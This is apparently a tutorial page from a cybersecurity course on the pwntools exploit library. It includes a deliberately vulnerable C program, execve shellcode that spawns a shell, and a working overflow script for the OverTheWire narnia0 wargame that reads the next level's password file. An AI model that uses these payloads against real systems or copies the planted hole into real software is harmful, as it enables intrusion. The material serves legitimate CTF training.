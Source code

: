 \newpage

## pwntools - CTF toolkit

From [1]:
> Pwntools is a CTF framework and exploit development library. Written in Python, it is designed for rapid prototyping and development, and intended to make exploit writing as simple as possible.

The following tutorials builds from [4]:

### Assembly and ELF manipulation

For a simple code like:
```C
#include <stdio.h>

int main(int argc, char* argv[])
{
	char flag[10] = {'S', 'E', 'C', 'R', 'E', 'T', 'F', 'L', 'A', 'G'};
	char digits[10] = {'0', '1', '2', '3', '4', '5', '6', '7', '8', '9'};
	int index = 0;

	while (1) {
		printf("Give me an index and I'll tell you what's there!\n");
		scanf("%d", &index);
		printf("Okay, here you go: %p %c\n", &digits[index], digits[index]);
	}
	return 0;
}
```

We compile it:
```bash
root@8beb97f8d305:/tutorial/tutorial6# gcc -o leaky leaky.c
```

and run the following Python script:
```Python
#!/usr/bin/env python
from pwn import *

leaky_elf = ELF('leaky')
main_addr = leaky_elf.symbols['main']

# Print address of main
log.info("Main at: " + hex(main_addr))

# Disassemble the first 14 bytes of main
log.info(disasm(leaky_elf.read(main_addr, 14), arch='x86'))
```

Delivering:
```
root@8beb97f8d305:/tutorial/tutorial6# python example1.py
[*] '/tutorial/tutorial6/leaky'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Main at: 0x4005d6
[*]    0:   55                      push   ebp
       1:   48                      dec    eax
       2:   89 e5                   mov    ebp,esp
       4:   48                      dec    eax
       5:   83 ec 50                sub    esp,0x50
       8:   89 7d bc                mov    DWORD PTR [ebp-0x44],edi
       b:   48                      dec    eax
       c:   89                      .byte 0x89
       d:   75                      .byte 0x75
```

### Shellcode from assembly
Available in `example6.py`. Shortly:
```Python
#!/usr/bin/env python
from pwn import *

# Define the context of the working machine
context(arch='i386', os='linux')

# Get a simple shellcode
log.info("Putting together simple shellcode")

sh_shellcode2 = """
        /* execve(path='/bin///sh', argv=['sh'], envp=0) */
        /* push '/bin///sh\x00' */
        push 0x68
        push 0x732f2f2f
        push 0x6e69622f
        mov ebx, esp
        /* push argument array ['sh\x00'] */
        /* push 'sh\x00\x00' */
        push 0x1010101
        xor dword ptr [esp], 0x1016972
        xor ecx, ecx
        push ecx /* null terminate */
        push 4
        pop ecx
        add ecx, esp
        push ecx /* 'sh\x00' */
        mov ecx, esp
        xor edx, edx
        /* call execve() */
        push SYS_execve /* 0xb */
        pop eax
        int 0x80
"""
# Create a binary out of some shellcode
e = ELF.from_assembly(sh_shellcode2, vma=0x400000, arch='i386')
```

### Shellcraft
Only managed to make it work for 32-bit binaries. Refer to `example4.py` for a working example with 32-bits and to `example5.py` for a non-working example with 64-bits.

```
docker run -v /Users/victor/basic_cybersecurity:/tutorial -it pwnbox:latest
...
root@ffac9df3ac02:/tutorial/tutorial6# python example4.py
[*] Compiling the binary narnia1_local
narnia1.c: In function 'main':
narnia1.c:21:5: warning: implicit declaration of function 'getenv' [-Wimplicit-function-declaration]
  if(getenv("EGG")==NULL){    
     ^
narnia1.c:21:18: warning: comparison between pointer and integer
  if(getenv("EGG")==NULL){    
                  ^
narnia1.c:23:3: warning: implicit declaration of function 'exit' [-Wimplicit-function-declaration]
   exit(1);
   ^
narnia1.c:23:3: warning: incompatible implicit declaration of built-in function 'exit'
narnia1.c:23:3: note: include '<stdlib.h>' or provide a declaration of 'exit'
narnia1.c:27:6: warning: assignment makes pointer from integer without a cast [-Wint-conversion]
  ret = getenv("EGG");
      ^
[*] Putting together simple shellcode
jhh///sh/bin\x89?h\x814$ri1?Qj\x04Y?Q??1?j\x0bX̀
[*] Introduce shellcode in EGG env. variable
[*] Launching narnia1_local
[!] Could not find executable 'narnia1_local' in $PATH, using './narnia1_local' instead
[+] Starting local process './narnia1_local': pid 38
[*] Switching to interactive mode
Trying to execute EGG!
$ uname -a
Linux ffac9df3ac02 4.9.87-linuxkit-aufs #1 SMP Wed Mar 14 15:12:16 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

Issue raised at https://github.com/Gallopsled/pwntools/issues/1142.

### GDB integration

Issue with the terminal fixed at https://github.com/Gallopsled/pwntools/issues/1140.

New issue at https://github.com/Gallopsled/pwntools/issues/1117.

### Examples
#### narnia1
As an example, provided the following problem http://overthewire.org/wargames/narnia/narnia1.html:

```Python
from pwn import *

context(arch='i386', os='linux')
s = ssh(user='narnia0', host='narnia.labs.overthewire.org', password='narnia0', port=2226)
sh = s.run('/narnia/narnia0')
sh.sendline('A'*20 + p32(0xdeadbeef))
sh.sendline('cat /etc/narnia_pass/narnia1')
while 1:
    print(sh.recvline())
# log.info('Flag: '+sh.recvline().split('\n')[0])
s.close()

```

### Resources
- [1] Gallopsled, *pwntools*. Retrieved from https://github.com/Gallopsled/pwntools.
- [2] Gallopsled, *pwntools Docs*. Retrieved from https://docs.pwntools.com/en/stable/index.html.
- [3] Exploit Database. Retrieved from https://www.exploit-db.com/.
- [4] University Politehnica of Bucharest, Computer Science and Engineering Department, Computer and Network Security. *Lab 07 - Exploiting. Shellcodes (Part 2)*. Retrieved from https://ocw.cs.pub.ro/courses/cns/labs/lab-07.
